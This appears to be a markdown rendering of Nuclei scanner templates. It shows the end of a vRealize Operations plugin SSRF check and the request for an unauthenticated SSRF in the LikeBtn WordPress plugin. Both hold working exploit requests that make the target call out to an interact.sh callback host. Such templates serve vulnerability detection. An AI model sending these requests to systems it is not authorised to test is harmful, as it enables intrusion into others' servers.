 ### Step - 1

```
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
Host: {{Hostname}}
Vcip: {{interactsh-url}}
Vcpassword: {{rand_base(6)}}
Vcusername: {{rand_base(6)}}
Reqresource: {{rand_base(6)}}

```

### Matchers

**Type - status**

- status
  1. 500

**Type - word**

- part - body
- words
  1. The server sent HTTP status code 200

---

# Like Button Rating \< 2.6.32 - Unauthenticated Full-Read SSRF

## Description

- The LikeBtn WordPress plugin was vulnerable to Unauthenticated Full-Read Server-Side Request Forgery (SSRF).

- severity - high
- tags - cve,cve2021,wordpress,wp-plugin,wp,ssrf,wpscan,unauth,likebtn-like-button

## Requests

### Step - 1

```
@timeout: 10s
GET /wp-admin/admin-ajax.php?action=likebtn_prx&likebtn_q={{base64('http://likebtn.com.interact.sh')}}" HTTP/1.1
Host: {{Hostname}}

```

### Matchers
